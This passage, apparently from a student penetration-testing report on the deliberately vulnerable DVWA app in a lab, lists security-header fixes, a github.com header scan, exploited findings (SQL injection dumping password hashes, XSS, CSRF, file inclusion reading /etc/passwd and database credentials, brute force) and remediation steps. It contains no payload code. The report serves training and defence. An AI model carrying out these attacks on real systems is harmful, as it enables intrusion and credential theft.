### HTTP Headers Before Security Hardening



The response headers initially lacked important security protections such as `X-Frame-Options` and `X-Content-Type-Options`.

---

### After — Security Headers Added

Apache config updated with:
```apache
Header always set X-Frame-Options "SAMEORIGIN"
Header always set X-Content-Type-Options "nosniff"
```

**Headers returned (after fix):**
```
HTTP/1.1 302 Found
Server: Apache/2.2.8 (Ubuntu) DAV/2
X-Powered-By: PHP/5.2.4-2ubuntu5.10
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
```

### Apache Configuration After Adding Security Headers



The Apache configuration file was updated to include additional HTTP security headers such as `X-Frame-Options` and `X-Content-Type-Options`.

---

### Public Site Analysis — github.com

Scanned `github.com` on securityheaders.com — **Grade: A**

**Headers present:**
- Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
- X-Frame-Options: deny
- X-Content-Type-Options: nosniff
- Referrer-Policy: strict-origin-when-cross-origin
- Content-Security-Policy: (comprehensive policy — default-src 'none', full allowlist)

**Missing:**
- Permissions-Policy
### SecurityHeaders.com Scan Result



The public website scan demonstrated strong HTTP security header implementation and received a high security grade.

### Detailed Security Header Analysis



The report includes detailed header analysis, including Content Security Policy (CSP), HSTS, X-Frame-Options, and other browser security protections.

---

### Web Headers — Risk Analysis

| Header | Risk if Missing | Added |
|--------|----------------|-------|
| X-Frame-Options | Clickjacking | Yes |
| X-Content-Type-Options | MIME sniffing attacks | Yes |
| Content-Security-Policy | XSS not mitigated at header level | Partially |
| Referrer-Policy | Information leakage | No |
| HSTS | SSL stripping, MitM | No (no HTTPS) |

---

## Overall Findings Summary

| # | Vulnerability | OWASP | Severity | Status |
|---|--------------|-------|----------|--------|
| 1 | SQL Injection — UNION attack, full DB dump | A03 | Critical | Exploited |
| 2 | Stored XSS — JavaScript execution | A03 | High | Exploited |
| 3 | Reflected XSS — img onerror bypass | A03 | High | Exploited |
| 4 | CSRF — Admin password changed | A01 | High | Exploited |
| 5 | LFI — /etc/passwd read | A01 | High | Exploited |
| 6 | LFI — DB credentials via PHP filter | A01 | High | Exploited |
| 7 | Brute Force — Weak password via Intruder | A07 | Medium | Exploited |
| 8 | Missing X-Frame-Options | A05 | Medium | Fixed |
| 9 | Missing X-Content-Type-Options | A05 | Medium | Fixed |
| 10 | Server version disclosure | A05 | Low | Noted |

---

## Remediation Summary

| Priority | Action |
|----------|--------|
| Immediate | Use prepared statements for all database queries |
| Immediate | HTML encode all user-supplied output |
| Immediate | Add CSRF tokens to all state-changing forms, use POST not GET |
| Immediate | Whitelist allowed files in file inclusion — disable allow_url_include |
| High | Implement account lockout and rate limiting on login |
| High | Add Content-Security-Policy header |
| Medium | Add Referrer-Policy and Permissions-Policy headers |
| Medium | Hide server version (ServerTokens Prod) |
| Low | Implement HTTPS and add HSTS header |

---

## Screenshots Index

| File | Vulnerability | Description |
|------|--------------|-------------|
| [MySQLerror.png](./screenshots/MySQLerror.png) | SQLi | MySQL syntax error on single quote input |
| [confirmMySQLerror.png](./screenshots/confirmMySQLerror.png) | SQLi | Normal response with id=1 |
| [union_attack_database.png](./screenshots/union_attack_database.png) | SQLi | UNION attack returning root@localhost and dvwa |
| [table_names_extract.png](./screenshots/table_names_extract.png) | SQLi | Tables: guestbook and users |
| [hashed_table_passwords.png](./screenshots/hashed_table_passwords.png) | SQLi | All 5 users with MD5 hashes |
| [XSS_script.png](./screenshots/XSS_script.png) | Stored XSS | Alert popup "XSS by Professorshubhx" |
| [reflected_XSS.png](./screenshots/reflected_XSS.png) | Reflected XSS | img onerror payload in URL, reflected in page |
| [Get_request_intercept.png](./screenshots/Get_request_intercept.png) | CSRF + Burp | Burp intercepted GET and POST requests |
| [attacker_ip_csrf.png](./screenshots/attacker_ip_csrf.png) | CSRF | Attack page at 192.168.172.200/csrf.html |
| [CSRF_password.png](./screenshots/CSRF_password.png) | CSRF | Forged GET request in Burp |
| [password_change.png](./screenshots/password_change.png) | CSRF | DVWA showing "Password Changed" |
| [input_directly_include.png](./screenshots/input_directly_include.png) | LFI | /etc/passwd contents in browser |
| [config_inc_php.png](./screenshots/config_inc_php.png) | LFI | config.inc.php included via path traversal |
| [php_filter_wrapper.png](./screenshots/php_filter_wrapper.png) | LFI | Base64 output from php://filter wrapper |
| [encoded_base64_DB.png](./screenshots/encoded_base64_DB.png) | LFI | Terminal showing decoded DB credentials |
| [successfull_pass.png](./screenshots/successfull_pass.png) | Brute Force | Intruder results — all 302, length difference |
| [header_before.png](./screenshots/header_before.png) | Headers | curl output — no security headers |
| [after_edit_apache2.png](./screenshots/after_edit_apache2.png) | Headers | curl output — X-Frame-Options and nosniff added |
| [public_website.png](./screenshots/public_website.png) | Headers | securityheaders.com — github.com grade A |
| [security_score_github.png](./screenshots/security_score_github.png) | Headers | Full github.com header details |

---

## Conclusion

All six OWASP vulnerability classes tested were successfully exploited against DVWA on Low security level. The most critical finding is SQL Injection — the entire user database including all password hashes was extracted with a single UNION payload. File Inclusion further exposed system files and database credentials. XSS and CSRF demonstrate client-side attack vectors that affect real users. The web security headers section demonstrated both the risk of missing headers and how quickly they can be added to improve security posture.

This assessment was conducted in an isolated lab environment for educational purposes as part of the ApexPlanet Cybersecurity Internship Task 3.

---

*Report by: Professorshubhx*
*Internship: ApexPlanet Software Pvt. Ltd.*
